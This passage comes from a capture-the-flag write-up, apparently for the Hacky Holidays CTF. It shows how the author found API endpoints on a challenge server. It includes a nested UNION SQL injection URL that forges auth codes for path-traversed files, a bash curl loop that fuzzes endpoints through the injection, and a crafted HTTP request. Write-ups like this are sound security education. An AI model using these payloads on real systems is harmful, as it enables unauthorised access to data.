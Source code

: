 ###### note: This would be a really good vector to try and find vulnerabilities in a real app. Changing the path, deleting the auth code, modifying it, etc.

We know there is an api endpoint because it is mentioned when we arrived at the page:

`We are currently developing an API, apologies for anything that doesn't work quite right`

So we go to https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api and start trying to find possible endpoints in `/r3c0n_server_4fdk59/api/*` fuzzing a lot to see if we can find something. We quickly notice that we get code 401 blocking us to access anything, but on this I found a few probably unintended "bugs" that I wanted to share for people reading the report.

When trying to access normal endpoints like `/api/anything` we get 401.  Basically`[a-zA-Z0-9]` returns code 401.

This restriction doesn't apply when we go 2 or more directories depth like `/r3c0n_server_4fdk59/api/abc/here` or when we add a special character in first path like `/r3c0n_server_4fdk59/api/asdasd.` or `/r3c0n_server_4fdk59/api/asdasd!` so I spent a lot of time trying to find a filter bypass to access some random api endpoints like `/api/abc/../FUZZ` or `/api/./FUZZ` but they all were dead ends.

Back to the SQL injection, it is possible to force the server to create an auth code for us, therefore allowing us to fuzz the api for endpoints.

Injecting the following query would make the server create an auth code for the specific file/path we want to see:

`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jasda59grop'+UNION+SELECT+"2'+UNION+SELECT+1,1,'../api/whatever'+--+-",'12',1--+--`

This would create an image with  in the response, with the '/api/whatever' path and the auth code to view the specified directory.

With this in mind, I wrote a script that would fuzz the api endpoint, grab the urls generated by the server in the response and then make GET request to check if any of them is different from the usual response.

```bash
while read line; do
        curl -s -k "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jasda59grop%27+UNION+SELECT+%222%27+UNION+SELECT+1,1,%27../api/${line}%27+--+-%22,%2712%27,1--+-" | grep '" src=".*"' -o | sed 's/" src="//' | sed 's/"//' | sed 's/^/https\:\/\/hackyholidays.h1ctf.com/' | anew valid-endpoints > /dev/null;
done < api.txt

while read line; do
        curl -s -k "${line}" > output;
        if cat output | grep 'Invalid content type detected' > /dev/null; then
                echo $line;
        fi
done < valid-endpoints
```

After running it, I found 2 endpoints that returned a different response: `/api/user` and `/api/ping`. But both of this urls were returning:

```
GET /r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3VzZXIiLCJhdXRoIjoiYmZiNmRkMDRlNjZlODU1NjRkZWJiYTNlN2IyMjJlMzQifQ== HTTP/1.1
Host: hackyholidays.h1ctf.com
```
